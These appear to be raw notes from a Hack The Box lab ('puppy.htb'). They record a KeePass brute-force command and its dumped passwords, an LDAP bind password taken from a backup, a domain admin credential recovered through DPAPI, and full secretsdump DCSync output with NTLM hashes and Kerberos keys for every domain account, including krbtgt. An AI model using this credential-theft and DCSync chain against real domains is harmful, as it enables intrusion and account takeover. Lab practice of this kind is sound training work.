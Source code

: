 ___



 adam.silver is prob the user I have to get

ant.edwards also too maybe both are remote mgm users



steph.cooper_adm@PUPPY.HTB <- this guy has domain admin



*dump keepass database*

./bin/python3 bfkeepass.py -d /home/ew/box/puppy/loot/recovery.kdbx -w /home/ew/Documents/wordlists/rockyou.txt -o 
[*] Running bfkeepass
[*] Starting bruteforce process...
[!] Success! Database password: liverpool
[>] Dumping entries...
--------------------
[>] Title: JAMIE WILLIAMSON
[>] Username: None
[>] Password: JamieLove2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ADAM SILVER
[>] Username: None
[>] Password: HJKL2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: ANTONY C. EDWARDS
[>] Username: None
[>] Password: Antman2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: STEVE TUCKER
[>] Username: None
[>] Password: Steve2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Title: SAMUEL BLAKE
[>] Username: None
[>] Password: ILY2025!
[>] URL: puppy.htb
[>] Notes: None
--------------------
[>] Entry dump complete.
[*] Stopping bruteforce process.
[*] Done.








*credentials that worked*

ant.edwards
Antman2025!

[>] Title: ANTONY C. EDWARDS
[>] Username: None
[>] Password: Antman2025!
[>] URL: puppy.htb
[>] Notes: None



*found this in the backup file*
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>



*to show all files in a folder*
dir -Force



*got this from dpapi -> credential files*
[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!





*secretsdump steph.cooper_adm has DCSync permission on domain*

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa943f13896e3e21f6c4100c7da9895a6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9c541c389e2904b9b112f599fd6b333d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
PUPPY\DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
PUPPY\DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
PUPPY\DC$:des-cbc-md5:54e9a11619f8b9b5
PUPPY\DC$:plain_password_hex:84880c04e892448b6419dda6b840df09465ffda259692f44c2b3598d8f6b9bc1b0bc37b17528d18a1e10704932997674cbe6b89fd8256d5dfeaa306dc59f15c1834c9ddd333af63b249952730bf256c3afb34a9cc54320960e7b3783746ffa1a1528c77faa352a82c13d7c762c34c6f95b4bbe04f9db6164929f9df32b953f0b419fbec89e2ecb268ddcccb4324a969a1997ae3c375cc865772baa8c249589e1757c7c36a47775d2fc39e566483d0fcd48e29e6a384dc668228186a2196e48c7d1a8dbe6b52fc2e1392eb92d100c46277e1b2f43d5f2b188728a3e6e5f03582a9632da8acfc4d992899f3b64fe120e13
PUPPY\DC$:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xc21ea457ed3d6fd425344b3a5ca40769f14296a3
dpapi_userkey:0xcb6a80b44ae9bdd7f368fb674498d265d50e29bf
[*] NL$KM 
 0000   DD 1B A5 A0 33 E7 A0 56  1C 3F C3 F5 86 31 BA 09   ....3..V.?...1..
 0010   1A C4 D4 6A 3C 2A FA 15  26 06 3B 93 E0 66 0F 7A   ...j<*..&.;..f.z
 0020   02 9A C7 2E 52 79 C1 57  D9 0C D3 F6 17 79 EF 3F   ....Ry.W.....y.?
 0030   75 88 A3 99 C7 E0 2B 27  56 95 5C 6B 85 81 D0 ED   u.....+'V.\k....
NL$KM:dd1ba5a033e7a0561c3fc3f58631ba091ac4d46a3c2afa1526063b93e0660f7a029ac72e5279c157d90cd3f61779ef3f7588a399c7e02b2756955c6b8581d0ed
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb0edc15e49ceb4120c7bd7e6e65d75b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a4f2989236a639ef3f766e5fe1aad94a:::
PUPPY.HTB\levi.james:1103:aad3b435b51404eeaad3b435b51404ee:ff4269fdf7e4a3093995466570f435b8:::
PUPPY.HTB\ant.edwards:1104:aad3b435b51404eeaad3b435b51404ee:afac881b79a524c8e99d2b34f438058b:::
PUPPY.HTB\adam.silver:1105:aad3b435b51404eeaad3b435b51404ee:a7d7c07487ba2a4b32fb1d0953812d66:::
PUPPY.HTB\jamie.williams:1106:aad3b435b51404eeaad3b435b51404ee:bd0b8a08abd5a98a213fc8e3c7fca780:::
PUPPY.HTB\steph.cooper:1107:aad3b435b51404eeaad3b435b51404ee:b261b5f931285ce8ea01a8613f09200b:::
PUPPY.HTB\steph.cooper_adm:1111:aad3b435b51404eeaad3b435b51404ee:ccb206409049bc53502039b80f3f1173:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5047916131e6ba897f975fc5f19c8df:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c0b23d37b5ad3de31aed317bf6c6fd1f338d9479def408543b85bac046c596c0
Administrator:aes128-cts-hmac-sha1-96:2c74b6df3ba6e461c9d24b5f41f56daf
Administrator:des-cbc-md5:20b9e03d6720150d
krbtgt:aes256-cts-hmac-sha1-96:f2443b54aed754917fd1ec5717483d3423849b252599e59b95dfdcc92c40fa45
krbtgt:aes128-cts-hmac-sha1-96:60aab26300cc6610a05389181e034851
krbtgt:des-cbc-md5:5876d051f78faeba
PUPPY.HTB\levi.james:aes256-cts-hmac-sha1-96:2aad43325912bdca0c831d3878f399959f7101bcbc411ce204c37d585a6417ec
PUPPY.HTB\levi.james:aes128-cts-hmac-sha1-96:661e02379737be19b5dfbe50d91c4d2f
PUPPY.HTB\levi.james:des-cbc-md5:efa8c2feb5cb6da8
PUPPY.HTB\ant.edwards:aes256-cts-hmac-sha1-96:107f81d00866d69d0ce9fd16925616f6e5389984190191e9cac127e19f9b70fc
PUPPY.HTB\ant.edwards:aes128-cts-hmac-sha1-96:a13be6182dc211e18e4c3d658a872182
PUPPY.HTB\ant.edwards:des-cbc-md5:835826ef57bafbc8
PUPPY.HTB\adam.silver:aes256-cts-hmac-sha1-96:670a9fa0ec042b57b354f0898b3c48a7c79a46cde51c1b3bce9afab118e569e6
PUPPY.HTB\adam.silver:aes128-cts-hmac-sha1-96:5d2351baba71061f5a43951462ffe726
PUPPY.HTB\adam.silver:des-cbc-md5:643d0ba43d54025e
PUPPY.HTB\jamie.williams:aes256-cts-hmac-sha1-96:aeddbae75942e03ac9bfe92a05350718b251924e33c3f59fdc183e5a175f5fb2
PUPPY.HTB\jamie.williams:aes128-cts-hmac-sha1-96:d9ac02e25df9500db67a629c3e5070a4
PUPPY.HTB\jamie.williams:des-cbc-md5:cb5840dc1667b615
PUPPY.HTB\steph.cooper:aes256-cts-hmac-sha1-96:799a0ea110f0ecda2569f6237cabd54e06a748c493568f4940f4c1790a11a6aa
PUPPY.HTB\steph.cooper:aes128-cts-hmac-sha1-96:cdd9ceb5fcd1696ba523306f41a7b93e
PUPPY.HTB\steph.cooper:des-cbc-md5:d35dfda40d38529b
PUPPY.HTB\steph.cooper_adm:aes256-cts-hmac-sha1-96:a3b657486c089233675e53e7e498c213dc5872d79468fff14f9481eccfc05ad9
PUPPY.HTB\steph.cooper_adm:aes128-cts-hmac-sha1-96:c23de8b49b6de2fc5496361e4048cf62
PUPPY.HTB\steph.cooper_adm:des-cbc-md5:6231015d381ab691
DC$:aes256-cts-hmac-sha1-96:f4f395e28f0933cac28e02947bc68ee11b744ee32b6452dbf795d9ec85ebda45
DC$:aes128-cts-hmac-sha1-96:4d596c7c83be8cd71563307e496d8c30
DC$:des-cbc-md5:7f044607a8dc9710


